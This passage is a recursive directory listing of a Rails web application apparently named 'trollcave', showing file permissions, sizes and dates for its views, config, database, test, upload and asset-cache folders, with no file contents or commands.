-rw-r--r--  1 rails rails   48 Sep 16  2016 new.html.haml
-rw-r--r--  1 rails rails  183 Sep 16  2016 show.html.haml
-rw-r--r--  1 rails rails   77 Sep 16  2016 show.json.jbuilder

/var/www/trollcave/app/views/users:
total 36K
drwxr-xr-x  2 rails rails 4.0K Sep 29  2017 .
drwxr-xr-x 14 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  923 Sep 16  2016 edit.html.haml
-rw-r--r--  1 rails rails    0 Sep 16  2016 _form.html.haml
-rw-r--r--  1 rails rails   82 Sep 16  2016 index.html.haml
-rw-r--r--  1 rails rails  127 Sep 16  2016 index.json.jbuilder
-rw-r--r--  1 rails rails  660 Sep 16  2016 new.html.haml
-rw-r--r--  1 rails rails  107 Sep 16  2016 show.html.haml
-rw-r--r--  1 rails rails   77 Sep 16  2016 show.json.jbuilder
-rw-r--r--  1 rails rails  800 Sep 29  2017 _user.html.haml

/var/www/trollcave/bin:
total 28K
drwxr-xr-x  2 rails rails 4.0K Sep 16  2016 .
drwxr-xr-x 13 rails rails 4.0K Oct 23  2017 ..
-rwxr-xr-x  1 rails rails  129 Sep 16  2016 bundle
-rwxr-xr-x  1 rails rails  219 Sep 16  2016 rails
-rwxr-xr-x  1 rails rails  164 Sep 16  2016 rake
-rwxr-xr-x  1 rails rails  805 Sep 16  2016 setup
-rwxr-xr-x  1 rails rails  463 Sep 16  2016 spring

/var/www/trollcave/.bundle:
total 12K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxr-xr-x 13 rails rails 4.0K Oct 23  2017 ..
-rw-rw-r--  1 rails rails   68 Sep 16  2016 config

/var/www/trollcave/config:
total 48K
drwxr-xr-x  5 rails rails 4.0K Oct 23  2017 .
drwxr-xr-x 13 rails rails 4.0K Oct 23  2017 ..
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 application.rb
-rw-r--r--  1 rails rails  132 Sep 16  2016 boot.rb
-rw-rw-r--  1 rails rails  645 Oct 23  2017 database.yml
-rw-r--r--  1 rails rails  150 Sep 28  2017 environment.rb
drwxr-xr-x  2 rails rails 4.0K Oct 23  2017 environments
drwxr-xr-x  2 rails rails 4.0K Sep 28  2017 initializers
drwxr-xr-x  2 rails rails 4.0K Sep 16  2016 locales
-rw-rw-r--  1 rails rails    0 Sep 16  2016 out
-rw-r--r--  1 rails rails  480 Sep 16  2016 puma.rb
-rw-r--r--  1 rails rails 2.4K Sep 29  2017 routes.rb
-rw-rw-r--  1 rails rails  151 Sep 16  2016 secrets.yml

/var/www/trollcave/config/environments:
total 20K
drwxr-xr-x 2 rails rails 4.0K Oct 23  2017 .
drwxr-xr-x 5 rails rails 4.0K Oct 23  2017 ..
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 development.rb
-rw-rw-r-- 1 rails rails 3.3K Oct 23  2017 production.rb
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 test.rb

/var/www/trollcave/config/initializers:
total 44K
drwxr-xr-x 2 rails rails 4.0K Sep 28  2017 .
drwxr-xr-x 5 rails rails 4.0K Oct 23  2017 ..
-rw-r--r-- 1 rails rails  486 Sep 16  2016 assets.rb
-rw-r--r-- 1 rails rails  404 Sep 16  2016 backtrace_silencers.rb
-rw-r--r-- 1 rails rails  291 Sep 16  2016 constants.rb
-rw-r--r-- 1 rails rails  129 Sep 16  2016 cookies_serializer.rb
-rw-r--r-- 1 rails rails  194 Sep 16  2016 filter_parameter_logging.rb
-rw-r--r-- 1 rails rails  647 Sep 16  2016 inflections.rb
-rw-r--r-- 1 rails rails  156 Sep 16  2016 mime_types.rb
-rw-r--r-- 1 rails rails  158 Sep 28  2017 session_store.rb
-rw-r--r-- 1 rails rails  517 Sep 16  2016 wrap_parameters.rb

/var/www/trollcave/config/locales:
total 12K
drwxr-xr-x 2 rails rails 4.0K Sep 16  2016 .
drwxr-xr-x 5 rails rails 4.0K Oct 23  2017 ..
-rw-r--r-- 1 rails rails  634 Sep 16  2016 en.yml

/var/www/trollcave/db:
total 52K
drwxr-xr-x  3 rails rails 4.0K Oct 23  2017 .
drwxr-xr-x 13 rails rails 4.0K Oct 23  2017 ..
-rw-r--r--  1 rails rails  30K Sep 29  2017 development.sqlite3
drwxr-xr-x  2 rails rails 4.0K Sep 16  2016 migrate
-rw-r--r--  1 rails rails 3.3K Sep 29  2017 schema.rb
-rw-r--r--  1 rails rails    0 Sep 29  2017 test.sqlite3

/var/www/trollcave/db/migrate:
total 44K
drwxr-xr-x 2 rails rails 4.0K Sep 16  2016 .
drwxr-xr-x 3 rails rails 4.0K Oct 23  2017 ..
-rw-r--r-- 1 rails rails  402 Sep 16  2016 20151015183034_create_users.rb
-rw-r--r-- 1 rails rails  262 Sep 16  2016 20151015184352_create_blogs.rb
-rw-r--r-- 1 rails rails  301 Sep 16  2016 20151015190854_create_comments.rb
-rw-r--r-- 1 rails rails  269 Sep 16  2016 20151021082039_create_admin_settings.rb
-rw-r--r-- 1 rails rails  264 Sep 16  2016 20151021124321_create_private_messages.rb
-rw-r--r-- 1 rails rails  229 Sep 16  2016 20151022071406_create_user_files.rb
-rw-r--r-- 1 rails rails  366 Sep 16  2016 20151022083446_create_reports.rb
-rw-r--r-- 1 rails rails  116 Sep 16  2016 20151022091837_add_avatar_to_users.rb
-rw-r--r-- 1 rails rails  166 Sep 16  2016 20160912091730_add_reset_to_users.rb

/var/www/trollcave/lib:
total 16K
drwxr-xr-x  4 rails rails 4.0K Sep 16  2016 .
drwxr-xr-x 13 rails rails 4.0K Oct 23  2017 ..
drwxr-xr-x  2 rails rails 4.0K Sep 16  2016 assets
drwxr-xr-x  2 rails rails 4.0K Sep 16  2016 tasks

/var/www/trollcave/lib/assets:
total 8.0K
drwxr-xr-x 2 rails rails 4.0K Sep 16  2016 .
drwxr-xr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails    0 Sep 16  2016 .keep

/var/www/trollcave/lib/tasks:
total 8.0K
drwxr-xr-x 2 rails rails 4.0K Sep 16  2016 .
drwxr-xr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails    0 Sep 16  2016 .keep

/var/www/trollcave/log:
total 128K
drwxrwxr-x  2 rails rails 4.0K Oct 21  2016 .
drwxr-xr-x 13 rails rails 4.0K Oct 23  2017 ..
-rw-rw-r--  1 rails rails 119K Sep 29  2017 development.log
-rw-rw-r--  1 rails rails    0 Sep 16  2016 production.log

/var/www/trollcave/public:
total 32K
drwxr-xr-x  4 rails rails 4.0K Oct 21  2016 .
drwxr-xr-x 13 rails rails 4.0K Oct 23  2017 ..
-rw-r--r--  1 rails rails 1.6K Sep 16  2016 404.html
-rw-r--r--  1 rails rails 1.6K Sep 16  2016 422.html
-rw-r--r--  1 rails rails 1.5K Sep 16  2016 500.html
drwxrwxr-x  2 rails rails 4.0K Oct 23  2017 assets
-rw-r--r--  1 rails rails    0 Sep 16  2016 favicon.ico
-rw-r--r--  1 rails rails  202 Sep 16  2016 robots.txt
drwxr-xr-x  9 rails rails 4.0K May  6 03:44 uploads

/var/www/trollcave/public/assets:
total 636K
drwxrwxr-x 2 rails rails 4.0K Oct 23  2017 .
drwxr-xr-x 4 rails rails 4.0K Oct 21  2016 ..
-rw-rw-r-- 1 rails rails 132K Oct 20  2017 640px-Troll_Warning-7609c691efcf3b8040566ae6a4ccc54c44f3cc1cb028a0eb8eebef8259fca7a6.jpg
-rw-rw-r-- 1 rails rails  11K Oct 23  2017 application-0223d0e584596647a15d7305e4a27c53b2d2095094196d49b7a8116085bbe043.css
-rw-rw-r-- 1 rails rails  11K Oct 23  2017 application-152e0b6420893f14eeb6f908ca26bc60cca1bf773cbe0cb0a493fe7541d77b7a.css
-rw-rw-r-- 1 rails rails 3.9K Sep 16  2016 application-256ecb7e9f2030693c4471f3ca445ff95b7f341f13dbd64de946050b8f23bfbe.css
-rw-rw-r-- 1 rails rails  10K Oct 20  2017 application-2917ec43a27feb7dc2926e95c2e8fded66b3bf86701463ff21744084741dd19e.css
-rw-rw-r-- 1 rails rails 116K Sep 16  2016 application-651fad9d6e2c391178a5d74f43c8ebcc00d02c80b75b71897aef15acb756e286.js
-rw-rw-r-- 1 rails rails 322K Oct 20  2017 application-88d4cbee7b3f8591b7ccf003c3923c922b1e3fef8487fb1f09c4fc434c1bcb3d.js
-rw-rw-r-- 1 rails rails  11K Oct 23  2017 application-a2e3bec5c601e080064f2f5913c1c431649f00c335a2d1324c584700d586de47.css
-rw-rw-r-- 1 rails rails 2.8K Oct 23  2017 .sprockets-manifest-eaa309a19b5e3eaa7e69e1469fe5dc15.json

/var/www/trollcave/public/uploads:
total 36K
drwxr-xr-x 9 rails rails 4.0K May  6 03:44 .
drwxr-xr-x 4 rails rails 4.0K Oct 21  2016 ..
drwxr-xr-x 2 rails rails 4.0K Oct 23  2017 coderguy
drwxr-xr-x 2 rails rails 4.0K Oct 23  2017 cooldude89
drwxr-xr-x 2 rails rails 4.0K Oct 23  2017 dave
drwxr-xr-x 2 rails rails 4.0K Oct 23  2017 dragon
drwxr-xr-x 2 rails rails 4.0K May  6 03:40 King
drwxr-xr-x 2 rails rails 4.0K Oct 23  2017 Sir
drwxr-xr-x 2 rails rails 4.0K Oct 23  2017 teflon
-rw-r--r-- 1 rails rails    0 May  6 03:44 test2

/var/www/trollcave/public/uploads/coderguy:
total 20K
drwxr-xr-x 2 rails rails 4.0K Oct 23  2017 .
drwxr-xr-x 9 rails rails 4.0K May  6 03:44 ..
-rw-r--r-- 1 rails rails 9.2K Oct 23  2017 ruby.png

/var/www/trollcave/public/uploads/cooldude89:
total 16K
drwxr-xr-x 2 rails rails 4.0K Oct 23  2017 .
drwxr-xr-x 9 rails rails 4.0K May  6 03:44 ..
-rw-r--r-- 1 rails rails 5.9K Oct 23  2017 poochie.jpg

/var/www/trollcave/public/uploads/dave:
total 20K
drwxr-xr-x 2 rails rails 4.0K Oct 23  2017 .
drwxr-xr-x 9 rails rails 4.0K May  6 03:44 ..
-rw-r--r-- 1 rails rails  12K Oct 23  2017 dave.png

/var/www/trollcave/public/uploads/dragon:
total 16K
drwxr-xr-x 2 rails rails 4.0K Oct 23  2017 .
drwxr-xr-x 9 rails rails 4.0K May  6 03:44 ..
-rw-r--r-- 1 rails rails 5.4K Oct 23  2017 lildragon.png

/var/www/trollcave/public/uploads/King:
total 12K
drwxr-xr-x 2 rails rails 4.0K May  6 03:40 .
drwxr-xr-x 9 rails rails 4.0K May  6 03:44 ..
-rw-r--r-- 1 rails rails 2.7K Oct 23  2017 crown.png
-rw-r--r-- 1 rails rails    0 May  6 03:40 test1

/var/www/trollcave/public/uploads/Sir:
total 12K
drwxr-xr-x 2 rails rails 4.0K Oct 23  2017 .
drwxr-xr-x 9 rails rails 4.0K May  6 03:44 ..
-rw-r--r-- 1 rails rails 3.4K Oct 23  2017 mrsir.jpg

/var/www/trollcave/public/uploads/teflon:
total 12K
drwxr-xr-x 2 rails rails 4.0K Oct 23  2017 .
drwxr-xr-x 9 rails rails 4.0K May  6 03:44 ..
-rw-r--r-- 1 rails rails 2.7K Oct 23  2017 pan.jpg

/var/www/trollcave/test:
total 36K
drwxr-xr-x  8 rails rails 4.0K Sep 16  2016 .
drwxr-xr-x 13 rails rails 4.0K Oct 23  2017 ..
drwxr-xr-x  2 rails rails 4.0K Sep 16  2016 controllers
drwxr-xr-x  2 rails rails 4.0K Sep 16  2016 fixtures
drwxr-xr-x  2 rails rails 4.0K Sep 16  2016 helpers
drwxr-xr-x  2 rails rails 4.0K Sep 16  2016 integration
drwxr-xr-x  2 rails rails 4.0K Sep 16  2016 mailers
drwxr-xr-x  2 rails rails 4.0K Sep 16  2016 models
-rw-r--r--  1 rails rails  448 Sep 16  2016 test_helper.rb

/var/www/trollcave/test/controllers:
total 16K
drwxr-xr-x 2 rails rails 4.0K Sep 16  2016 .
drwxr-xr-x 8 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 reports_controller_test.rb
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 user_files_controller_test.rb

/var/www/trollcave/test/fixtures:
total 36K
drwxr-xr-x 2 rails rails 4.0K Sep 16  2016 .
drwxr-xr-x 8 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  179 Sep 16  2016 admin_settings.yml
-rw-r--r-- 1 rails rails  355 Sep 16  2016 blogs.yml
-rw-r--r-- 1 rails rails  355 Sep 16  2016 comments.yml
-rw-r--r-- 1 rails rails  247 Sep 16  2016 private_messages.yml
-rw-r--r-- 1 rails rails  207 Sep 16  2016 reports.yml
-rw-r--r-- 1 rails rails  167 Sep 16  2016 user_files.yml
-rw-r--r-- 1 rails rails  355 Sep 16  2016 users.yml

/var/www/trollcave/test/helpers:
total 8.0K
drwxr-xr-x 2 rails rails 4.0K Sep 16  2016 .
drwxr-xr-x 8 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails    0 Sep 16  2016 .keep

/var/www/trollcave/test/integration:
total 16K
drwxr-xr-x 2 rails rails 4.0K Sep 16  2016 .
drwxr-xr-x 8 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  310 Sep 16  2016 guest_authorisation_test.rb
-rw-r--r-- 1 rails rails    0 Sep 16  2016 .keep
-rw-r--r-- 1 rails rails  620 Sep 16  2016 register_test.rb

/var/www/trollcave/test/mailers:
total 8.0K
drwxr-xr-x 2 rails rails 4.0K Sep 16  2016 .
drwxr-xr-x 8 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails    0 Sep 16  2016 .keep

/var/www/trollcave/test/models:
total 36K
drwxr-xr-x 2 rails rails 4.0K Sep 16  2016 .
drwxr-xr-x 8 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  126 Sep 16  2016 admin_setting_test.rb
-rw-r--r-- 1 rails rails  118 Sep 16  2016 blog_test.rb
-rw-r--r-- 1 rails rails  121 Sep 16  2016 comment_test.rb
-rw-r--r-- 1 rails rails  116 Sep 16  2016 pm_test.rb
-rw-r--r-- 1 rails rails  120 Sep 16  2016 report_test.rb
-rw-r--r-- 1 rails rails  122 Sep 16  2016 user_file_test.rb
-rw-r--r-- 1 rails rails  823 Sep 16  2016 user_test.rb

/var/www/trollcave/tmp:
total 24K
drwxrwxr-x  6 rails rails 4.0K Sep 16  2016 .
drwxr-xr-x 13 rails rails 4.0K Oct 23  2017 ..
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 cache
drwxrwxr-x  2 rails rails 4.0K May  6 01:06 pids
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 sessions
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 sockets

/var/www/trollcave/tmp/cache:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 assets

/var/www/trollcave/tmp/cache/assets:
total 16K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 development
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 production

/var/www/trollcave/tmp/cache/assets/development:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 sprockets

/var/www/trollcave/tmp/cache/assets/development/sprockets:
total 28K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails  20K Oct 23  2017 v3.0

/var/www/trollcave/tmp/cache/assets/development/sprockets/v3.0:
total 976K
drwxrwxr-x 2 rails rails  20K Oct 23  2017 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails  209 Oct 20  2017 0OC9UtlkWTKkdHnpqIrLIjL6Sbxdhm2SYxsd7af_o9E.cache
-rw-rw-r-- 1 rails rails  854 Oct 20  2017 14FXrrr-_PN-xnU2P1RmRkSp-lV-cEj1zA126U9bGso.cache
-rw-rw-r-- 1 rails rails  243 Oct 20  2017 17ubBLAfkO54mc-A02R2ogRUedXvfWmqjsuLK0OEd7c.cache
-rw-rw-r-- 1 rails rails  161 Oct 20  2017 1pXb9_J7ZaQpLK22m_g4CwXwinQOMBc6YgRd67TBEgs.cache
-rw-rw-r-- 1 rails rails  929 Oct 20  2017 2bXvrx-pFiq1uhBsClFxz9aQiCx86R75BEmwPnvwZkM.cache
-rw-rw-r-- 1 rails rails  158 Oct 20  2017 2OFXFkAKAcGOdmiCyOrx7R000vUCD_zhW9dCpkHJVhs.cache
-rw-rw-r-- 1 rails rails  865 Oct 23  2017 2OH70OM5Jn4SIpiG9ynDsJFN63FogQDQ6oaZ4ksLeno.cache
-rw-rw-r-- 1 rails rails 2.3K Oct 23  2017 3hhfwi7I68l1-IUKnnCehF8VHo44IFCwjC_vA65L-hs.cache
-rw-rw-r-- 1 rails rails 2.3K Oct 20  2017 3_IEDMLfReyhCvRjeAPAEBOG4nvdmXGN4pn-uuTOQpQ.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 42Npn-FUKi-awZNPgo_Qphvxf_NH5WGGqpKneAYMOXA.cache
-rw-rw-r-- 1 rails rails  217 Oct 23  2017 4cMYhIqvBBOP4qNagrxVT1jSwIGcME5axUdXp4tkjRE.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 4hTGX1eoHhdFzPm1pZ3Xgc7dccDR1nYYMfKQo9XI5nU.cache
-rw-rw-r-- 1 rails rails  243 Oct 20  2017 4JQ3uf2_0rPjboMenylFNr57zWbhuKZ_IdX52lfh9-M.cache
-rw-rw-r-- 1 rails rails  144 Oct 23  2017 6EGO9SXQGP5GqzstBJ94lLbBhhQgCzWBY_t7PkrNQL0.cache
-rw-rw-r-- 1 rails rails 1.5K Oct 23  2017 6gtx8vl5ISPVCWiJrIRt4C7h3wfG5ilC1CdSdihGFFk.cache
-rw-rw-r-- 1 rails rails 1.3K Oct 23  2017 6iQF3bKWsq_-ju7zO-_ns-fL6eTyWZpCIGBkPWTXYf4.cache
-rw-rw-r-- 1 rails rails 1.3K Sep 16  2016 6pv34vJhL9Y8vguVRru4OsoSZsxddtnlU2ZWSI275yA.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 6pzoPmqgBv2A0vv0ffsmzYSLMeE3Jss71gUc_jdrshY.cache
-rw-rw-r-- 1 rails rails  890 Oct 23  2017 6sVcADFG6kOXucNpCvdtKE9GMFIX6T1LXwGhOJq_adg.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 6XGcnfKAZfrJVxfMLTdWfY7aq4ZTGMmvvSjYaRNIe7w.cache
-rw-rw-r-- 1 rails rails  789 Oct 23  2017 7jyJdMvBKK_UDbLjWAP3PJT7DEJvnH9VNxJhEYoHCHs.cache
-rw-rw-r-- 1 rails rails 2.3K Sep 16  2016 7KjniYGVqjT3Fgi3tyxvz6v_lf4N2ESGUssl9QV6O84.cache
-rw-rw-r-- 1 rails rails  854 Oct 23  2017 86WZjlSbm-qTRlGvfPzFqF7BSFXIb1oFhVY6HJtQo8c.cache
-rw-rw-r-- 1 rails rails  158 Sep 16  2016 87_R3Zn0EG4Zr2X5wNHiQz7Y27PHOu19uTxx-KEW0Js.cache
-rw-rw-r-- 1 rails rails  136 Oct 23  2017 8FDNOSfjgZPfI1pTcDBM4IsTdzWulzZHPbBSXuX6k50.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 95_J2gpydyTJFGyUQfoM8dGkUPOuREF3SJTbDWZyddM.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 9fe1CwwwgF0NkopAwVCpnUcvyHMHFomr7ordyNgMocs.cache
-rw-rw-r-- 1 rails rails  789 Oct 23  2017 9kh-ZwaizxsV8obtXUSTQ8M3gkCQzmklcE3ZFlkDE7o.cache
-rw-rw-r-- 1 rails rails  854 Sep 16  2016 9OAa1l7mIlS73JTw3cUxd6esr8XLCAf0jV8iaWSoKoo.cache
-rw-rw-r-- 1 rails rails  145 Oct 23  2017 9ZtJwEC3_UVqf4ahmwCEy6E0jG7mHXfl6KShAa-aXVk.cache
-rw-rw-r-- 1 rails rails  144 Oct 23  2017 a36Q9KSqdgMPoPLqvkZJQ2zieGCIOaRHMwPbeUxdTuA.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 AKuNsAh4d0z1FDJ7vFN4IyMDzlUEhs3iFOj6ormY_1I.cache
-rw-rw-r-- 1 rails rails 1.6K Sep 16  2016 aRQdKwHWetSsXuuR0eUBv9LrAt1uLko73XsSOljk8_M.cache
-rw-rw-r-- 1 rails rails  789 Oct 20  2017 AUvJ_crnKeolATM9QCU1s-td89CVrgzgrhF5dk24sjI.cache
-rw-rw-r-- 1 rails rails  207 Oct 23  2017 A_w3JMOvuzlc8SfIPcHg-hHbEXcpbZtCqsH7pwkRlJs.cache
-rw-rw-r-- 1 rails rails 1.6K Oct 23  2017 b4L4AEWvjWOCmGAF0U3w__x6ohrM9k9TxZrw2SGUUnU.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 baqRAFS1y94gQ4FtYS9uqEFg_XKLTmfk1mnSAgUnFC8.cache
-rw-rw-r-- 1 rails rails  158 Oct 20  2017 baZYNnTmMPugOxB2719mXIP4CONZ9j0guODe-jBh0-Q.cache
-rw-rw-r-- 1 rails rails  771 Oct 23  2017 BM5VF35tBr7RfFjG5C188DVElnR_vft8aGaklZH7Xys.cache
-rw-rw-r-- 1 rails rails  136 Oct 23  2017 brbqCmdc5YobxbKlp75PKqHiV5Nie1CexFwkvCzszfU.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 c0FgqaTTUK_9-k71DHvbpSLA3FQ0LPwIjr-L3xjFszs.cache
-rw-rw-r-- 1 rails rails  166 Oct 20  2017 c72abO34Pt3MdjqXGsNCt4z6igDqzlzHEVLpliyOmEo.cache
-rw-rw-r-- 1 rails rails  140 Oct 23  2017 CKb45Ub2AIvuD5NaVKl1_P8r0NObsntYtdbn0-mMDfc.cache
-rw-rw-r-- 1 rails rails  885 Oct 23  2017 cSWu_xDxrFnuZEF9Z7_MFopdIodSecJcz33fk2JOEF4.cache
-rw-rw-r-- 1 rails rails 1.3K Oct 20  2017 cUmUL43M8UjuLypDGnysjYs_wfyM_zCRAnYvkf_C_1E.cache
-rw-rw-r-- 1 rails rails  273 Oct 20  2017 cwxdb1SaYn1DKZ91Poa1Y8fPkfjITtRjrB_YjXScL9c.cache
-rw-rw-r-- 1 rails rails  959 Oct 20  2017 D1P1j_hpUW7jQmtY9zQcje6A9cslG_v7mYrbk7fETDk.cache
-rw-rw-r-- 1 rails rails  208 Sep 16  2016 d7CtwSl0YHBfcnwmh4QbJmRoE8ys95301wvPjRGkpMQ.cache
-rw-rw-r-- 1 rails rails  136 Sep 16  2016 dceWQJOliIj4wJQJgRP1gHe6pT-aGMDusDABHgpde1s.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 -dHsf8anSMxFwY4VoLns2BG1Kb5VLksz2r65fIM6-i8.cache
-rw-rw-r-- 1 rails rails  159 Oct 20  2017 dI9P8Ai9QyNMs3YAYcqWu6IgUy6mHUSHaKUcNTK1ArA.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 DoyJ_hrgbeyMkpIKe1QIZAZcVGi4Pz396ZuikDzyGEk.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 DrmmIyeAS5SaiSEMMfexLxDjFQHOGkSOXfXOGXcOuwY.cache
-rw-rw-r-- 1 rails rails 3.3K Sep 16  2016 dw90Myu2T_4bjZNK5BH4qSI6g3vJC6SJnoI3sizGXss.cache
-rw-rw-r-- 1 rails rails  554 Oct 23  2017 _DwQP9DfMeMWQP3ESNHcY18fZ4BUAmIiycvxyb_OORw.cache
-rw-rw-r-- 1 rails rails  979 Oct 20  2017 e8eVaT9sX5SnCdwDampGrWkzOlA-TOLSAnIZevbUh2U.cache
-rw-rw-r-- 1 rails rails  150 Sep 16  2016 efFfLKmZbnsPLcs_eo2NNvzt6kNmxN2pNBF2nRSFxYQ.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 ekeBz4TbMF7g38ycv9Fco8DBDfASgibifFgP02nnsR0.cache
-rw-rw-r-- 1 rails rails  240 Oct 20  2017 eN_MqgsJ6kGs2g_2oRnMvC-46tAsvIeAikPo7gO6aOs.cache
-rw-rw-r-- 1 rails rails 1.6K Oct 23  2017 equPUaj1PV5Vs8orlwjnyJQyzqP5LA-txYM05Pcn6uM.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 FGdsuOAu75Pg_rIR-vLZacAMPkwJYaFoaLV5etGgc5c.cache
-rw-rw-r-- 1 rails rails 3.4K Oct 23  2017 filswRCBlfVmZ06etlStBAk2vdEGeZjnf7Fa3u_b0k0.cache
-rw-rw-r-- 1 rails rails  155 Oct 20  2017 fl8mxrZBl3NwuGLO12Ej3lwp8NayI792Q1gPMi0Ll5k.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 Fzb9uqppZd0fbrRLg8WpoHUonJyNj1_xtcrgo6xc_Ec.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 gIwdCnCFNN140wtroEB90gJem1CnaAIKSI3IbKQDprM.cache
-rw-rw-r-- 1 rails rails 6.9K Oct 20  2017 H8sXaXwJAN9MEq9q94ODOoelxa_Bi0LFTd23vFCEzfk.cache
-rw-rw-r-- 1 rails rails  934 Oct 20  2017 ha4845RBLkiKlk6jjjKsoXjSTnFijWD9fljbGr54C5Y.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 hL8XsvrhK2wUYpkgTspU6smvDEOuGdgnCYDiDG532-A.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 hVwUJNh0NZYKSgz96YTFVkDrIJpTdZUjAbR5hN6khrY.cache
-rw-rw-r-- 1 rails rails  984 Oct 20  2017 HWZSm-KJEjBbe1iB1xA1baKjYu2vstFZEMTch5G85BY.cache
-rw-rw-r-- 1 rails rails 1.8K Sep 16  2016 HzrUgdZkwvt3iOrLbT8C7fl782RS2UroIhKbTBGLq_8.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 ithwnSlgwhttyKwZ_1JvA2KoUxfy95GznEwcrICFrMk.cache
-rw-rw-r-- 1 rails rails   36 Oct 20  2017 IuQXWrULqh-qpPfvImorH4qg-IXV9ddn6OyTI46oNMY.cache
-rw-rw-r-- 1 rails rails  850 Oct 23  2017 IURAw4mQ0Ey8w9qSxKfu6XJj-G6_RmyZyQ_4snT55wQ.cache
-rw-rw-r-- 1 rails rails  150 Oct 23  2017 j8xfQ6iFS6wfEsFTwJPXQgu6O3FELUOyPUX_FzJy2FA.cache
-rw-rw-r-- 1 rails rails  142 Oct 23  2017 jYlvSFP1ol5-4y1alyMmApUH8XaJuXChE0lYmYlNPtI.cache
-rw-rw-r-- 1 rails rails  245 Oct 20  2017 JyqMbT3oMutYJTNmj3p1z1e1W-CUM8Unv-LnNORAISc.cache
-rw-rw-r-- 1 rails rails 1.7K Oct 23  2017 JzCpOEIXFnqQML0XfVGNNS85FppI3dPVrXnRWZs-0ZI.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 K0ZOYiuqEKoEV0cMcwhKmjkzXqV3Ju0vVSDmAoZKAIs.cache
-rw-rw-r-- 1 rails rails 1.1K Sep 16  2016 KgsJeTugu8-0RS8kNIwRwpEPMxKnsy87CM9vGaJkn1s.cache
-rw-rw-r-- 1 rails rails  136 Oct 20  2017 Ki7H9M770wUXFg3P87wEGR6H61339AyjiOmjmph-zzE.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 KptQCwFSICkyAmHln1nOmlHYXHbp-Ro376Y15uNSZMQ.cache
-rw-rw-r-- 1 rails rails   41 Sep 16  2016 KVLRlP8_ZddMFsTuVFvHN55OssVrQfiQYVRdWpjmxX8.cache
-rw-rw-r-- 1 rails rails  156 Oct 20  2017 kX4xKmQERa7w-lxnVmqbQK-k_XGS-oNUYzWMdLrAv6w.cache
-rw-rw-r-- 1 rails rails 3.4K Oct 23  2017 L07JE42hWpGc7Po_2-karnq55xQ6h7d_aGCv5rrNVyo.cache
-rw-rw-r-- 1 rails rails  295 Oct 20  2017 l5uYWCQ_ai4-6FQ7G-qkdgrm-otVY2eGaHMQbpu8mQU.cache
-rw-rw-r-- 1 rails rails  249 Oct 20  2017 lgoTkTTJXoFCpuoeuG97iEsQqjy8jvkkmyot7yFQ3CI.cache
-rw-rw-r-- 1 rails rails  208 Oct 23  2017 Lt4TPjA-kILlOPulsgrIZuhlLEuo1MqeeQ6eAFMKYlg.cache
-rw-rw-r-- 1 rails rails  96K Oct 23  2017 lU4E_tUElEZDC7jNxKdH4JBrPWhlzkbRPxYXdncRIzQ.cache
-rw-rw-r-- 1 rails rails  854 Oct 23  2017 m3fKHZMgXeag9Vkbisfe7Xa9AU8TrJUZJDx9aHzA9v4.cache
-rw-rw-r-- 1 rails rails  240 Oct 20  2017 m8RV6Jib53pxfhAQaiTgUFJpfYn-raiX_ujaG-cnyP0.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 mJEcZ3yR-TExvxJPeqA-IVNtCjlBQCzgCCcEiz6vYZY.cache
-rw-rw-r-- 1 rails rails 1.1K Sep 16  2016 m-KBhaqdO-i_S1eJTXDEbZNX9aXbQ90tvdNWTTZDgx8.cache
